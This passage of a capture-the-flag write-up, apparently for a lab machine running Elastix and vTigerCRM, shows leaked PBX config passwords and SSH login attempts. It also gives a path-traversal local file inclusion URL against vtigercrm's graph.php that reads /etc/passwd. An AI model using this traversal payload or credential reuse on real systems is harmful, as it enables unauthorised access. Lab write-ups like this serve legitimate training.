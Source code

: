 Let's filter through the information for something that we can actually use.
```
ARI_ADMIN_USERNAME=admin

# AMPDBPASS: Password for AMPDBUSER
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE

# AMPMGRPASS: Password for AMPMGRUSER
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# FOPPASSWORD: Password for performing transfers and hangups in the Flash Operator Panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```
We see a username `admin`, and a common password, `jEhdIekWmdjE`. Since we saw Port 22 opened earlier, we can try to SSH into the system with this password found.

## 8. SSH (Port 22) with Credentials Found, Getting Flags
Upon getting password `jEhdIekWmdjE`, we can attempt to SSH into the system.
```
hippoeug@kali:~$ ssh admin@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Ah, let's fix this key exchange method by specifying `diffie-hellman-group1-sha1`.
```
hippoeug@kali:~$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@10.10.10.7
admin@10.10.10.7's password: 
Permission denied, please try again.
```

We're getting some permission denied errors despite the correct password. Maybe it's the username that's wrong. Let's use the VTigerCRM exploit we used earlier to get the `etc/passwd` file to find the users.

Upon navigating to `(view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action)` on our web browser, we see some usernames indeed.
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
```